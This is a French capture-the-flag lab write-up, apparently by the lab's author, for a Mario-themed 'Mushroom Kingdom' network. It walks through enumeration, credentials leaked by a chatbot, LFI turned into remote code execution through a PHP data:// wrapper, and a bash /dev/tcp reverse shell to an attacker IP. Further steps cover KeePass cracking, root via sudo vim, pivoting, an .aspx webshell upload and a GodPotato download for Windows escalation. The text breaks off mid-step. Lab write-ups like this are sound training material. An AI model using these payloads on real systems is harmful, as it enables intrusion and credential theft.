# Writeup - Mushroom Kingdom

Jérémy Diaz - Lab auteur "Mushroom Kingdom"


---
## 1. Enumeration

```bash
nmap -p- -A "$IP"
```



```
22/tcp   open  ssh
80/tcp   open  http
5353/udp open  domain
```

Le 80/tcp sert juste la page par défaut "Thank you Mario!" sans intérêt.



Le port 53 standard ne répond pas, il est intercepté par l'infra réseau. Le vrai DNS écoute sur 5353.

PTR sur l'IP connue pour trouver le nom de domaine :

```bash
dig -x "$IP" -p 5353 @"$IP"
```



On peut donc ajouter `mushroomkingdom.local` a son `/etc/hosts`

```bash
echo "$IP forum.mushroomkingdom.local" | sudo tee -a /etc/hosts
```

Énumération de sous-domaines :
```bash
ffuf -w `fzf-wordlists`:FUZZ -u http://"mushroomkingdom.local"/ -H "Host: FUZZ.mushroomkingdom.local" -fs 894
```



--- 

C'est là que l'histoire commence, 

En entrant sur le site, on se rend compte qu'on tombe dans le forum officiel  
_du Royaume Champignon._ Dans celui-ci, on retrouve Peach, Mario, Luigi, Toad et tous les habitants du royaume pour partager des quêtes, des alertes et les dernières nouvelles du château.


En lisant les différents posts du forum, on se rend compte que notre mission est de sauver la princesse Peach



---

Des creds sont placés dans une des discussions du forum, ceci sont des honeypots


En bas à droite de la page on retrouver un bouton "besoin d'aide"


On tombe sur un chatbot. Ses réponses sont pré définis


Cependant, quand on lui dit le mot *flag* ou *compte* il leak des creds pour se login sur le site web



Il existe un autre moyen volontaire de trouver ses creds pour empêcher le guessing, ils sont en clair dans le scripts JS avec également l'intégralité de ses prompts leakés 


---

Désormais, LFI est possible depuis la barre de recherche 



---
## 3. RCE via wrapper data://

Une LFI classique accepte aussi les wrappers PHP, pas seulement des chemins de fichiers. Je teste `php://filter` sur la config PHP du serveur :

```
php://filter/convert.base64-encode/resource=/etc/php/8.3/apache2/php.ini
```



On se rend compte que : 

```
allow_url_include = On
```



Je génère un payload, et je l'insère

```bash
python3 -c "import urllib.parse; print(urllib.parse.quote(\"bash -c 'bash -i >& /dev/tcp/10.21.71.211/4444 0>&1'\"))"
```

```apache
bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.21.71.211/4444%200%3E%261%27
```

On démarre un listener :
```bash
rlwrap nc -lvnp 4444
```

Je colle l'URL dans la barre d'adresse, avec le payload en base64 dans `q` et la commande de reverse shell urlencodée dans `cmd` :

```apache
http://forum.mushroomkingdom.local/index.php?view=forum&q=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2B&cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.21.71.211/4444%200%3E%261%27
```



---
## 4. Privesc Linux, root sur TOAD

En explorant le système avec mon shell `www-data`, je trouve un fichier KeePass oublié dans `/var/backups` :

```bash
ls -la /var/backups/keepass-backup.kdbx
```

On récupère ce fichier sur la machine attaquante et on essaie de le cracker

```bash
keepass2john keepass-backup.kdbx > hash.txt
john hash.txt --wordlist=rockyou.txt
```



Le crack a fonctionné le mot de passe est : `princess1`, je peux donc ouvrir le fichier, dans le fichier, il y a des dizaines de creds.



Seul l'user toadette est actif sur la machine, tentons le creds trouvé dans le keepass


Je bascule sur ce compte depuis mon shell :

```bash
su toadette
```

Au moment de devenir toadette, `vim` s'ouvre instantanément au lieu d'un prompt. Un vim escape est nécessaire juste pour obtenir un shell utilisable :

```
:set shell=/bin/sh
:shell
```



```
sudo -l
```

```
User toadette may run the following commands on TOAD-MUSHROOM:
    (root) NOPASSWD: /usr/bin/vim
```

`vim` en sudo sans mot de passe, classique sur GTFOBins :

```bash
sudo vim -c ':!/bin/sh'
```

Je suis root
```
uid=0(root) gid=0(root) groups=0(root)
```

On trouve un message dans `/root` nous donnant des creds pour rentrer dans le réseau de Bowser



---

## 5. Pivot vers KOOPALINGS-CASTLE

Désormais on va devoir accéder à la machine des Koopalings, ils gardent le château pour empêcher l'accès au donjon de Bowser. 

Leur intranet  a été codé en un week-end par le cousin de Lemmy, qui n'a jamais entendu parler de validation d'upload...

Pendant ce temps, l'administrateur système de Bowser (`bowser_admin`) vient chaque mois faire sa maintenance sur le PC des Koopalings et oublie toujours de vérifier que ses identifiants ne traînent pas en mémoire.

Le mot de passe par défaut cité plus haut est logiquement `Welcome`, suivi de l'année en cours :

```
Welcome2026
```

Depuis mon shell root : 



Ping sweep du `/24`. Les parenthèses autour de la boucle évitent les notifications de job control du shell interactif qui polluent la sortie :
```bash
( for i in $(seq 1 254); do (ping -c1 -W1 10.10.20.$i &>/dev/null && echo "10.10.20.$i up") & done; wait )
```



Deux machines répondent. Plutôt que de scanner depuis TOAD, je pivote avec Ligolo-ng pour scanner directement depuis ma machine attaquante :

```bash
nmap -sV 10.10.20.0/24
```

```accesslog
10.10.20.20  80/tcp open http    KOOPALINGS-CASTLE, IIS
10.10.20.30  445,389,88 open    DC-BOWSER-KINGDOM, AD DS
```

---
## 6. RCE sur KOOPALINGS-CASTLE, upload non restreint

Le port http mène à l'intranet de Bowser


On trouve rapidement une page d'upload "Castle File Drop" dans `/upload.aspx`, elle accepte n'importe quel fichier sans vérification d'extension :



J'upload un `.aspx` sur le site




Dans `/uploads/webshell.aspx`, je suis désormais `svc_bowser_jr`



```
mushroomkingdom\svc_bowser_jr
```

---
## 7. Privesc Windows SYSTEM via SeImpersonatePrivilege

```powershell
whoami /priv
```



`svc_bowser_jr` hérite de ce privilège via `IIS_IUSRS` et n'est pas admin local, donc potato classique.

Je transfère l'outil avec un simple serveur HTTP sur TOAD, qui relaie vers le réseau interne :

```bash
cd /tmp && python3 -m http.server 8000
```

Et `Invoke-WebRequest` côté KOOPALINGS, depuis le webshell :

```powershell
powershell Invoke-WebRequest -Uri http://10.10.20.1:8080/GodPotato-NET4.exe -OutFile C:\Windows\Temp\GodPotato.exe
```

```powershell
